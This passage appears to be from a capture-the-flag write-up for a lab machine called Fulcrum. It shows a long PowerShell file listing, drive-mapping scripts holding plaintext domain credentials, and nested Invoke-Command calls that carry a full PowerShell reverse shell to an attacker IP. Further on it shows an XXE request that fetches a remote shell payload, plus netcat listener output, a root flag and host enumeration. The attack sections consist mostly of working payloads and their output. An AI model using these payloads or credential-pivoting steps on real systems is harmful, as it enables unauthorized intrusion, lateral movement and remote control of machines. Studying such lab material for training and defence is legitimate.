-ar---        3/13/1937  11:37 AM            340 ac4e95fd-6a31-4f6d-bcad-17e4a0864028.ps1
-ar---        3/13/1937  11:37 AM            340 ace2c111-1b9d-4e8b-ac56-4b5dd21ed954.ps1
-ar---        3/13/1937  11:37 AM            340 ad4cd0fa-25fa-4401-9b30-b0cfa85b838c.ps1
-ar---        3/13/1937  11:37 AM            340 ad85d3a9-35a5-4509-98b8-35aedd992cb1.ps1
-ar---        3/13/1937  11:37 AM            340 ada5b6c4-79a6-46fa-9a43-0982a12ea7b2.ps1
-ar---        3/13/1937  11:37 AM            340 adb3ea32-2460-4efb-825b-8b175af210ff.ps1
-ar---        3/13/1937  11:37 AM            340 adb3edff-1825-402d-b90e-eff3afe8ce42.ps1
-ar---        3/13/1937  11:37 AM            340 adf1fecb-f02b-4d27-825e-898a6d1bcae8.ps1
-ar---        3/13/1937  11:37 AM            340 adf95c95-ecb4-4796-ae1a-448e0476c444.ps1
-ar---        3/13/1937  11:37 AM            340 ae0d89c2-fed1-4ed5-ac18-55eb8a8fe5ea.ps1
-ar---        3/13/1937  11:37 AM            340 ae0f5e30-78cc-4f28-aa9f-298d21a7127a.ps1
-ar---        3/13/1937  11:37 AM            340 ae10026c-9e6e-444e-bf3c-d3f5cda6a896.ps1
-ar---        3/13/1937  11:37 AM            340 ae32b313-a094-4ba0-a694-6041b4ef247e.ps1
-ar---        3/13/1937  11:37 AM            340 ae4a24ef-c914-417a-8b27-5426e33e3973.ps1
-ar---        3/13/1937  11:37 AM            340 ae60ef68-5b16-4ecb-92c6-c529ef9b75ab.ps1
-ar---        3/13/1937  11:37 AM            340 ae62c19c-1c70-44c1-ab63-0e48e56b5eef.ps1
-ar---        3/13/1937  11:37 AM            340 ae65511f-86ee-4c3f-9633-52f798b03203.ps1
-ar---        3/13/1937  11:37 AM            340 ae7895ab-43c3-4a32-b5a7-848957180584.ps1
-ar---        3/13/1937  11:37 AM            340 aea89611-3e76-4fb1-b032-d0b23a6fca1d.ps1
-ar---        3/13/1937  11:37 AM            340 aeae6be4-daad-461a-83d4-483d53848b13.ps1
-ar---        3/13/1937  11:37 AM            340 af1049d1-5b2d-4ea6-9875-10f3ef87011f.ps1
-ar---        3/13/1937  11:37 AM            340 af25dbe0-bdac-49b8-965a-62a71744a762.ps1
-ar---        3/13/1937  11:37 AM            340 af3d94ec-d80f-429b-b396-04d20acab274.ps1
-ar---        3/13/1937  11:37 AM            340 af6c2338-b6fd-4753-860f-cc141945224c.ps1
-ar---        3/13/1937  11:37 AM            340 b097eb16-3049-48d5-8f94-e54d0012448a.ps1
-ar---        3/13/1937  11:37 AM            340 b0c4f140-e478-403e-b37e-afd84005da5a.ps1
-ar---        3/13/1937  11:37 AM            340 b12f2658-cfa3-4e47-8bfa-7792a1d3d4a2.ps1
-ar---        3/13/1937  11:37 AM            340 b1f14cc2-0915-4008-a180-f631e1c3023b.ps1
-ar---        3/13/1937  11:37 AM            340 b207b7f8-89e9-4765-97ba-d93e05255da6.ps1
-ar---        3/13/1937  11:37 AM            340 b21b0daa-cabb-47b1-919e-dbb1543a2473.ps1
-ar---        3/13/1937  11:37 AM            340 b21b95cb-6d5b-4492-8ce1-127f568eac79.ps1
-ar---        3/13/1937  11:37 AM            340 b220c7c7-d04f-4e69-b6b2-c2417bbc6436.ps1
-ar---        3/13/1937  11:37 AM            340 b22218ba-4a9b-4250-8106-35369fb42d33.ps1
-ar---        3/13/1937  11:37 AM            340 b248ff07-ba01-460d-a508-6b0746d73fd3.ps1
-ar---        3/13/1937  11:37 AM            340 b2e155b8-a9bf-4c7c-a4a5-840d6ae456d9.ps1
-ar---        3/13/1937  11:37 AM            340 b2edcf90-2a1a-449a-be16-e3d71ee16cd9.ps1
-ar---        3/13/1937  11:37 AM            340 b300b2dc-c6c0-40a2-9640-a2d72567f642.ps1
-ar---        3/13/1937  11:37 AM            340 b338407b-4ec1-4828-a517-2b6ae4373195.ps1
-ar---        3/13/1937  11:37 AM            340 b3ada343-6e4e-4798-8397-e1fb553b50ea.ps1
-ar---        3/13/1937  11:37 AM            340 b401d5dd-a681-4713-bfe2-95c578ad3f9f.ps1
-ar---        3/13/1937  11:37 AM            340 b41bb5fa-946b-4794-811d-4f190c6a8877.ps1
-ar---        3/13/1937  11:37 AM            340 b41e7f10-a851-4767-8221-4bb60efe797e.ps1
-ar---        3/13/1937  11:37 AM            340 b436a1bc-9944-41ef-87ed-fa0182e0b03d.ps1
-ar---        3/13/1937  11:37 AM            340 b44ca351-30ed-4ca8-8a45-a3f259b65bba.ps1
-ar---        3/13/1937  11:37 AM            340 b4f9297d-85c3-46b4-bdee-c884c5393567.ps1
-ar---        3/13/1937  11:37 AM            340 b54b0dec-178d-4856-b224-165a9ba812fe.ps1
-ar---        3/13/1937  11:37 AM            340 b5aa9dd9-ad7c-43df-9077-29ea57cba99c.ps1
-ar---        3/13/1937  11:37 AM            340 b5d25573-71f1-4f2b-9a78-e8771453ff26.ps1
-ar---        3/13/1937  11:37 AM            340 b6047495-ab8c-4469-b35e-a80ed769775f.ps1
-ar---        3/13/1937  11:37 AM            340 b6577bbf-f851-4cae-87bd-52a5081b3e46.ps1
-ar---        3/13/1937  11:37 AM            340 b689cf80-5531-4f94-8fd2-58b38f0d2d69.ps1
-ar---        3/13/1937  11:37 AM            340 b68cc267-d68c-4184-b8cb-92df95bdd637.ps1
-ar---        3/13/1937  11:37 AM            340 b779b0d7-cc48-44d1-bfc0-5f68e4639211.ps1
-ar---        3/13/1937  11:37 AM            340 b7bb4c62-2401-40fd-a5d4-28c25672bf1f.ps1
-ar---        3/13/1937  11:37 AM            340 b7d65232-7551-4e19-82e2-4235338b7414.ps1
-ar---        3/13/1937  11:37 AM            340 b7f703c9-ed03-4d4c-b3d6-84286e4225e5.ps1
-ar---        3/13/1937  11:37 AM            340 b7ff1111-bc6a-40eb-bd76-c8ba26beb429.ps1
-ar---        3/13/1937  11:37 AM            340 b80c7169-9777-49a1-8367-ec321c4ba0cb.ps1
-ar---        3/13/1937  11:37 AM            340 b823135c-ad63-45f5-8582-22c4b2ce4330.ps1
-ar---        3/13/1937  11:37 AM            340 b83aa33c-c436-48ce-ac80-0fab3a9cc096.ps1
-ar---        3/13/1937  11:37 AM            340 b8b32b33-bc2d-49ec-9b5f-e6542b0c9518.ps1
-ar---        3/13/1937  11:37 AM            340 b8c986ce-c68a-4f98-85f8-88344dd2e2d3.ps1
-ar---        3/13/1937  11:37 AM            340 b8e10437-557f-415f-9fd3-aa9880bd4ab5.ps1
-ar---        3/13/1937  11:37 AM            340 ba6631e9-db12-4c4a-8902-5ada0d4a9cd8.ps1
-ar---        3/13/1937  11:37 AM            340 ba6ba8be-3975-4c8d-892f-55c4fe77cefd.ps1
-ar---        3/13/1937  11:37 AM            340 bbfac9f7-5a2c-4982-bb5b-0754da739028.ps1
-ar---        3/13/1937  11:37 AM            340 bc259be1-4597-4f89-91f3-e5f16bfd328b.ps1
-ar---        3/13/1937  11:37 AM            340 bc2d3bdf-1af5-4908-a6ce-e1c8a6bd49e5.ps1
-ar---        3/13/1937  11:37 AM            340 bd6ea5c7-c8e2-455c-b3a7-2f9027486f94.ps1
-ar---        3/13/1937  11:37 AM            340 bd7619bc-08a7-46d9-87d1-67ca41d93fb7.ps1
-ar---        3/13/1937  11:37 AM            340 be0956a4-9874-4ce6-898d-f3ca35b731bd.ps1
-ar---        3/13/1937  11:37 AM            340 be2fbabb-9956-4997-855f-74973e3d0120.ps1
-ar---        3/13/1937  11:37 AM            340 be5eb333-fac8-4719-8def-6a3a7c2d0f5e.ps1
-ar---        3/13/1937  11:37 AM            340 be825b9a-e69b-4fc7-93b8-96df6c6f4e85.ps1
-ar---        3/13/1937  11:37 AM            340 bef0720a-e21e-475c-9179-cf0f22e74551.ps1
-ar---        3/13/1937  11:37 AM            340 bef8a96b-ae9a-48b3-b981-46c9836ec72e.ps1
-ar---        3/13/1937  11:37 AM            340 bf369b4d-6549-4373-a7b8-02345c2df6ef.ps1
-ar---        3/13/1937  11:37 AM            340 bf4666c8-9137-443b-9c6e-eb08c02214de.ps1
-ar---        3/13/1937  11:37 AM            340 bf8ef45b-19fa-494a-902f-c1261871a74f.ps1
-ar---        3/13/1937  11:37 AM            340 bfc05291-ce2a-478c-9a6d-944c01b07585.ps1
-ar---        3/13/1937  11:37 AM            340 c04f0224-7c55-4854-bfc2-27dfc5b4bc6e.ps1
-ar---        3/13/1937  11:37 AM            340 c151a370-b1c2-47a9-87ab-fc7fb9fb1d4a.ps1
-ar---        3/13/1937  11:37 AM            340 c17e03fc-c825-4466-9fb3-76da73b45473.ps1
-ar---        3/13/1937  11:37 AM            340 c21d86c3-fdd6-4d8d-aad3-4cbeae273498.ps1
-ar---        3/13/1937  11:37 AM            340 c2ab4e04-69d7-416b-8a3c-331961538c30.ps1
-ar---        3/13/1937  11:37 AM            340 c2d5090e-2caf-465a-b855-430a4e32c329.ps1
-ar---        3/13/1937  11:37 AM            340 c2efe159-c4d1-47b7-978b-0ee2c99f1215.ps1
-ar---        3/13/1937  11:37 AM            340 c2f19489-b292-481f-9900-d974130f56b1.ps1
-ar---        3/13/1937  11:37 AM            340 c397f6f8-e8fd-456f-b670-ca9d2f7815c6.ps1
-ar---        3/13/1937  11:37 AM            340 c4299959-fed5-4216-86e8-a10a658a0113.ps1
-ar---        3/13/1937  11:37 AM            340 c4358cbb-5b2a-45a0-87e8-e151a4028373.ps1
-ar---        3/13/1937  11:37 AM            340 c4787b63-0363-4ced-b019-84c2b500dc63.ps1
-ar---        3/13/1937  11:37 AM            340 c4f864ed-8779-41bd-8212-bf97ba51cbee.ps1
-ar---        3/13/1937  11:37 AM            340 c50cf081-8cbd-405b-8bfc-a12230bf6c32.ps1
-ar---        3/13/1937  11:37 AM            340 c58cf1ae-1050-4a72-bbd5-d00aa62a02fc.ps1
-ar---        3/13/1937  11:37 AM            340 c59d1af5-f74a-46a8-9b5b-32b74beabba3.ps1
-ar---        3/13/1937  11:37 AM            340 c5c7b98d-fdbc-4d67-93e3-488dc0eefa41.ps1
-ar---        3/13/1937  11:37 AM            340 c6ec54c6-bb9c-4605-9c7d-64326f200113.ps1
-ar---        3/13/1937  11:37 AM            340 c7097fc1-8269-4f33-8e8d-cd7141c4221b.ps1
-ar---        3/13/1937  11:37 AM            340 c71253be-15e0-482f-9128-783a6d560894.ps1
-ar---        3/13/1937  11:37 AM            340 c7b75839-a4e8-486a-82b2-f08f6349b685.ps1
-ar---        3/13/1937  11:37 AM            340 c84660d9-b931-418a-a481-f248514f2a16.ps1
-ar---        3/13/1937  11:37 AM            340 c8516fb9-8fc8-4710-b557-79919dc74079.ps1
-ar---        3/13/1937  11:37 AM            340 c8882899-399c-4f8e-aaf8-e95a0ccd3552.ps1
-ar---        3/13/1937  11:37 AM            340 c89d7e15-ba23-4257-aac3-a13ab0bbbb1e.ps1
-ar---        3/13/1937  11:37 AM            340 c9131ff0-3f51-40b0-a3c2-c714e42d892f.ps1
-ar---        3/13/1937  11:37 AM            340 c95cb2b7-7325-427e-922a-2129e3c15a00.ps1
-ar---        3/13/1937  11:37 AM            340 c95d5ffe-54fc-4795-96cf-715fa17600fc.ps1
-ar---        3/13/1937  11:37 AM            340 c95f3c49-0939-45f5-b07c-7b3e1237b78f.ps1
-ar---        3/13/1937  11:37 AM            340 c99980a6-a603-40de-a668-e4e12c913834.ps1
-ar---        3/13/1937  11:37 AM            340 c9b65303-cf8b-4caa-adc0-03d060920651.ps1
-ar---        3/13/1937  11:37 AM            340 c9df12ca-d31c-4a34-9cd0-30b42b275bf9.ps1
-ar---        3/13/1937  11:37 AM            340 ca03dcfc-c2b8-4483-a858-350b4adcf0e9.ps1
-ar---        3/13/1937  11:37 AM            340 cac273ca-686a-402c-bb7d-20c99731323b.ps1
-ar---        3/13/1937  11:37 AM            340 cbed41e3-c5c5-47cf-a276-328c3fabca8a.ps1
-ar---        3/13/1937  11:37 AM            340 cc062d96-6dd3-4f8e-9919-7be3ea689446.ps1
-ar---        3/13/1937  11:37 AM            340 cc1f8c18-06cb-4f76-b09d-d902ef363cbc.ps1
-ar---        3/13/1937  11:37 AM            340 cc3655ca-b4a3-4958-9dfd-ef8f3090aa2d.ps1
-ar---        3/13/1937  11:37 AM            340 cd300138-1f8d-46ba-aa2c-1605d4daed0a.ps1
-ar---        3/13/1937  11:37 AM            340 cd87759e-dced-4e9e-b1aa-41ada7408fc1.ps1
-ar---        3/13/1937  11:37 AM            340 cde0dad1-619e-461b-90fa-f362d1ee0656.ps1
-ar---        3/13/1937  11:37 AM            340 cde8f570-f686-49d2-8b53-7e6ddbdd6d62.ps1
-ar---        3/13/1937  11:37 AM            340 ce454f76-eb30-4f1f-aefa-447ee3c24833.ps1
-ar---        3/13/1937  11:37 AM            340 ce5e3a8c-270a-4030-ace9-63eab00f3f6b.ps1
-ar---        3/13/1937  11:37 AM            340 ce802de7-5dac-4510-8a00-4ef1a5571699.ps1
-ar---        3/13/1937  11:37 AM            340 cea76638-fd6d-4d9e-aad2-ef3d57c35805.ps1
-ar---        3/13/1937  11:37 AM            340 cfbda10d-0b03-406c-982c-8fede1d0995b.ps1
-ar---        3/13/1937  11:37 AM            340 cfed0de9-efc8-44aa-88b0-eb29adbae326.ps1
-ar---        3/13/1937  11:37 AM            340 d15a16fc-bd6d-408f-a38c-7773dff5d86c.ps1
-ar---        3/13/1937  11:37 AM            340 d185d869-616c-4e6f-8273-096dd82e5180.ps1
-ar---        3/13/1937  11:37 AM            340 d19d0f6f-0bfa-4c80-8e4c-d3682a945a9d.ps1
-ar---        3/13/1937  11:37 AM            340 d2af9874-9753-4286-a38b-222a52557e88.ps1
-ar---        3/13/1937  11:37 AM            340 d2c71d0f-d98d-4ff9-9774-8cf3a1a3ce00.ps1
-ar---        3/13/1937  11:37 AM            340 d2d2632d-049b-4b73-a027-6be09701b171.ps1
-ar---        3/13/1937  11:37 AM            340 d30b622a-4e2a-40fe-801f-d09cd7f8d62f.ps1
-ar---        3/13/1937  11:37 AM            340 d5279e12-37c3-49e9-8f52-df09fea36b5c.ps1
-ar---        3/13/1937  11:37 AM            340 d5c3acd3-61be-407b-9d58-d8e0587586ed.ps1
-ar---        3/13/1937  11:37 AM            340 d5ee817a-c252-4046-bd64-4079d51fe314.ps1
-ar---        3/13/1937  11:37 AM            340 d67a51f0-41f5-47a3-a608-f4df2e51051c.ps1
-ar---        3/13/1937  11:37 AM            340 d698e34b-fea3-4b90-a357-c40c6634b6db.ps1
-ar---        3/13/1937  11:37 AM            340 d7734d64-9ac7-4bf5-8519-f428302539fd.ps1
-ar---        3/13/1937  11:37 AM            340 d78c16ec-7e6d-43d6-b123-298bb7d221c4.ps1
-ar---        3/13/1937  11:37 AM            340 d8351253-185e-4da7-aad1-2013edc37f36.ps1
-ar---        3/13/1937  11:37 AM            340 d8b92b94-8941-424d-861f-7ada0709f673.ps1
-ar---        3/13/1937  11:37 AM            340 d93d437f-bbd7-4088-8e80-6c8acdd8d404.ps1
-ar---        3/13/1937  11:37 AM            340 d9457cca-fa87-4f5f-9cfb-e95d7834baa4.ps1
-ar---        3/13/1937  11:37 AM            340 d9e4fb66-5ee3-4956-9490-982e4a4eddff.ps1
-ar---        3/13/1937  11:37 AM            340 da827cd3-8789-4538-b311-589d0084261c.ps1
-ar---        3/13/1937  11:37 AM            340 daaa5718-0caf-4afc-b0b1-8c4524d432a4.ps1
-ar---        3/13/1937  11:37 AM            340 dc633e1f-5bf2-450e-8ffc-078a3301140b.ps1
-ar---        3/13/1937  11:37 AM            340 dcb5d093-9d64-4f30-9687-9f3e694c1737.ps1
-ar---        3/13/1937  11:37 AM            340 dcee41a3-f738-4b1c-8757-f013805beb6a.ps1
-ar---        3/13/1937  11:37 AM            340 de3e19e2-33ee-4ef3-b618-344e086362d8.ps1
-ar---        3/13/1937  11:37 AM            340 de55bcab-2606-475c-9747-da97911b157f.ps1
-ar---        3/13/1937  11:37 AM            340 de858619-2f85-449e-abd0-6e5fd60a4481.ps1
-ar---        3/13/1937  11:37 AM            340 df3e3fb8-d7e8-454d-a358-45c8e99a0d4c.ps1
-ar---        3/13/1937  11:37 AM            340 df4a0d1a-3fc2-479e-a292-52095d37e109.ps1
-ar---        3/13/1937  11:37 AM            340 dfefe5b7-3d86-4fe4-a00a-53753942a04d.ps1
-ar---        3/13/1937  11:37 AM            340 e0008959-3a20-4e68-acbb-914f9ab0a537.ps1
-ar---        3/13/1937  11:37 AM            340 e014af38-e4d9-4525-b2ab-13698a8c855b.ps1
-ar---        3/13/1937  11:37 AM            340 e01b3abf-a8eb-4667-ae44-67f03f83d5f1.ps1
-ar---        3/13/1937  11:37 AM            340 e13d2664-fbe8-445e-a2d1-e2ace5edaf49.ps1
-ar---        3/13/1937  11:37 AM            340 e191af68-8a48-430b-8804-4b7d1c5756cb.ps1
-ar---        3/13/1937  11:37 AM            340 e20a1f63-c3f1-4306-ba73-08b98a1cacb4.ps1
-ar---        3/13/1937  11:37 AM            340 e24c13b2-22d0-4224-b3a1-75b465e97479.ps1
-ar---        3/13/1937  11:37 AM            340 e336342c-0a89-419a-a936-6b27c0e91c43.ps1
-ar---        3/13/1937  11:37 AM            340 e3cfa473-2bcc-4c46-96f4-be4f2da8060d.ps1
-ar---        3/13/1937  11:37 AM            340 e41e6ed1-8dcc-41a1-a636-542ac0a15e47.ps1
-ar---        3/13/1937  11:37 AM            340 e521d346-7112-4584-be01-b00508911060.ps1
-ar---        3/13/1937  11:37 AM            340 e5c3d121-0618-49c5-b88e-05655755dc29.ps1
-ar---        3/13/1937  11:37 AM            340 e60fc5a3-8443-476b-9b63-3a8e2a85f108.ps1
-ar---        3/13/1937  11:37 AM            340 e6ac1605-2dab-4ef8-a708-1054bbc5bbc5.ps1
-ar---        3/13/1937  11:37 AM            340 e6fca4b4-5983-4c50-ab82-9d47f0d3ed9f.ps1
-ar---        3/13/1937  11:37 AM            340 e7239fa2-db80-4bdf-829f-0a7bef5766ad.ps1
-ar---        3/13/1937  11:37 AM            340 e72db70a-5e52-4ade-9610-6840151a324d.ps1
-ar---        3/13/1937  11:37 AM            340 e7d0d6ea-082e-46fb-8f04-71d92ba31ee1.ps1
-ar---        3/13/1937  11:37 AM            340 e7ef0175-a538-45c6-b2eb-94f4405204bb.ps1
-ar---        3/13/1937  11:37 AM            340 e8a6a2b2-ab6b-40cd-b662-b8a425b5077d.ps1
-ar---        3/13/1937  11:37 AM            340 e92664b8-e951-49f9-8d23-a26e4cef0a26.ps1
-ar---        3/13/1937  11:37 AM            340 e96e0329-5785-4edb-97f2-cdaf91b71004.ps1
-ar---        3/13/1937  11:37 AM            340 e9c43396-1bca-4d0d-9ab6-3f363d6a511b.ps1
-ar---        3/13/1937  11:37 AM            340 ea58e0a7-a7fb-4a8f-a327-d8ca19fd486e.ps1
-ar---        3/13/1937  11:37 AM            340 ea6cd972-22a6-47b8-b357-13434bdce8b0.ps1
-ar---        3/13/1937  11:37 AM            340 ebe9c0de-4a31-42f7-925c-1d4f5636732b.ps1
-ar---        3/13/1937  11:37 AM            340 ebf7179f-1e1a-44af-ab78-a97dc7b0b86c.ps1
-ar---        3/13/1937  11:37 AM            340 ec0e5d24-5f37-4993-8439-2623ada30b14.ps1
-ar---        3/13/1937  11:37 AM            340 ed43a343-ecd1-4a43-8c12-24e3414370e5.ps1
-ar---        3/13/1937  11:37 AM            340 edbd3690-f42b-410c-a4f1-29d5b3852cd7.ps1
-ar---        3/13/1937  11:37 AM            340 ee6d1575-e988-4180-be0f-f48cf3968c43.ps1
-ar---        3/13/1937  11:37 AM            340 eead29a3-f61c-4663-9694-4bf92b48cc16.ps1
-ar---        3/13/1937  11:37 AM            340 eef0e1c8-c69e-43d9-82bc-dd945188c2a4.ps1
-ar---        3/13/1937  11:37 AM            340 f032560c-eda2-429f-b456-acb8d1477d0d.ps1
-ar---        3/13/1937  11:37 AM            340 f0a1badb-1644-4b80-a9a7-4f7fae471ad6.ps1
-ar---        3/13/1937  11:37 AM            340 f155b05e-923f-4409-88a7-7ef32db06dab.ps1
-ar---        3/13/1937  11:37 AM            340 f1b9a812-7125-478d-aaa4-129514b53dc9.ps1
-ar---        3/13/1937  11:37 AM            340 f36c55e0-2a7c-482f-bfbd-2f1e630e7297.ps1
-ar---        3/13/1937  11:37 AM            340 f3a3d07d-3e3f-43ef-9a6a-8c5798ac1e68.ps1
-ar---        3/13/1937  11:37 AM            340 f504d45a-7fc6-4abe-a8f9-4bfc0bd3166e.ps1
-ar---        3/13/1937  11:37 AM            340 f5b83c5e-82a9-4316-ba06-3e3d12bfa671.ps1
-ar---        3/13/1937  11:37 AM            340 f858d01c-7f92-42e0-b165-cb214d839e26.ps1
-ar---        3/13/1937  11:37 AM            340 f9892933-e24b-4211-8a77-d41a2940acd4.ps1


PS Z:\> Get-ChildItem *.ps1 | Select-String 923a | Select-Object -Unique Path

Path
----
Z:\3807dacb-db2a-4627-b2a3-123d048590e7.ps1
Z:\a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1


PS Z:\> type 3807dacb-db2a-4627-b2a3-123d048590e7.ps1
# Map network drive v1.0
$User = '9f68'
$Pass = '@fulcrum_df0923a7ca40_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred


PS Z:\> type a1a41e90-147b-44c9-97d7-c9abb5ec0e2a.ps1
# Map network drive v1.0
$User = '923a'
$Pass = '@fulcrum_bf392748ef4e_$' | ConvertTo-SecureString -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ($User, $Pass)
New-PSDrive -Name '\\file.fulcrum.local\global\' -PSProvider FileSystem -Root '\\file.fulcrum.local\global\' -Persist -Credential $Cred


PS Z:\>
```

```
dc.fulcrum.local
FULCRUM\923a
@fulcrum_bf392748ef4e_$
```

###### Shell on DC

```sh
root@kali:~/fulcrum/winrm# ruby winrm_shell_with_upload.rb
PS webserver\webuser@WEBSERVER Documents> $SecPass = ConvertTo-SecureString '++FileServerLogon12345++' -AsPlainText -Force
PS webserver\webuser@WEBSERVER Documents> $Cred = New-Object System.Management.Automation.PSCredential('FULCRUM\BTABLES',$SecPass)
PS webserver\webuser@WEBSERVER Documents> $Cred

UserName                            Password
--------                            --------
FULCRUM\BTABLES System.Security.SecureString


PS webserver\webuser@WEBSERVER Documents> Invoke-Command -ComputerName File.fulcrum.local -Credential $cred -ScriptBlock { $SecPass = ConvertTo-SecureString '@fulcrum_bf392748ef4e_$' -AsPlainText -Force; $da = New-Object System.Management.Automation.PSCredential('Fulcrum\923a', $secpass); Invoke-Command -ComputerName dc.fulcrum.local -Credential $da -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.14.16',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() } }
```

```sh
root@kali:~/fulcrum/winrm# nc -nlvp 53
listening on [any] 53 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.62] 32390

PS C:\Users\923a\Documents> whoami
fulcrum\923a
PS C:\Users\923a\Documents> hostname
DC
PS C:\Users\923a\Documents> cd C:\Users
PS C:\Users\923a> cd C:\Users
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/16/2017   1:53 PM                923a
d-----        10/2/2017   3:12 PM                Administrator
d-r---       11/21/2016   2:39 AM                Public


PS C:\Users> cd Administrator
PS C:\Users\Administrator> cd Desktop
PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        10/4/2017   2:00 PM             70 root.txt


PS C:\Users\Administrator\Desktop> type root.txt
8ddbe372e57c019bb6c4cdb5b35a0cab
PS C:\Users\Administrator\Desktop>
```

###### Root exploit

```
GET / HTTP/1.1
Host: 10.10.10.62:56423
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: pmaCookieVer=5; pma_lang=en; pma_collation_connection=utf8mb4_unicode_ci; phpMyAdmin=eqssgnqtotvee3e4u2jojkevigj9ed66; PHPSESSID=ma8oa5sim3iptsrbba9hd426j43ku66s
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 192

<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://127.0.0.1:4/index.php?page=http://10.10.14.16:9001/SendShell" >]>
<foo>&xxe;</foo>
```



```sh
root@kali:~/fulcrum# nc -nlvp 9003
listening on [any] 9003 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.62] 60402
Linux Fulcrum 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 01:56:27 up 3 days, 22:18,  0 users,  load average: 0.17, 0.19, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
Fulcrum
$ ifconfig
corp      Link encap:Ethernet  HWaddr 52:54:00:87:ee:c0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:2024 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:215009 (215.0 KB)  TX bytes:0 (0.0 B)

ens32     Link encap:Ethernet  HWaddr 00:50:56:8f:f0:70
          inet addr:10.10.10.62  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: fe80::250:56ff:fe8f:f070/64 Scope:Link
          inet6 addr: dead:beef::250:56ff:fe8f:f070/64 Scope:Global
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:376869 errors:0 dropped:84 overruns:0 frame:0
          TX packets:393886 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:41380533 (41.3 MB)  TX bytes:55096270 (55.0 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:225 errors:0 dropped:0 overruns:0 frame:0
          TX packets:225 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:17960 (17.9 KB)  TX bytes:17960 (17.9 KB)

virbr0    Link encap:Ethernet  HWaddr 52:54:00:9c:e7:10
          inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:785858 errors:0 dropped:0 overruns:0 frame:0
          TX packets:830618 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:46058497 (46.0 MB)  TX bytes:47827453 (47.8 MB)

vnet0     Link encap:Ethernet  HWaddr fe:54:00:74:9d:17
          inet6 addr: fe80::fc54:ff:fe74:9d17/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:785858 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1004524 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:57060509 (57.0 MB)  TX bytes:56929121 (56.9 MB)

